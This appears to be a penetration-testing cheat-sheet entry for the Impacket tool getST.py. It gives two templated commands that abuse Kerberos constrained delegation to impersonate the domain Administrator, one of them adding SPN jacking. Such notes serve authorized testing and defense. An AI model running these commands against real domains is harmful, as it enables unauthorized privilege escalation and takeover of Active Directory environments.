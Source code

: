 # getST
#plateform/linux #target/remote #cat/ATTACK

## getST Constrained Delegation
```
getST.py -spn <SPN/FQDN_or_HOSTNAME> '<DOMAIN>/<USER>:<PASSWORD>' -impersonate Administrator
```

## getST Constrained Delegation With SPN Jacking
```
getST.py -spn <SPN/FQDN_or_HOSTNAME> '<DOMAIN>/<USER>:<PASSWORD>' -impersonate Administrator -altservice <SPN_YOU_WANT/FQDN_OR_HOSTNAME>
```

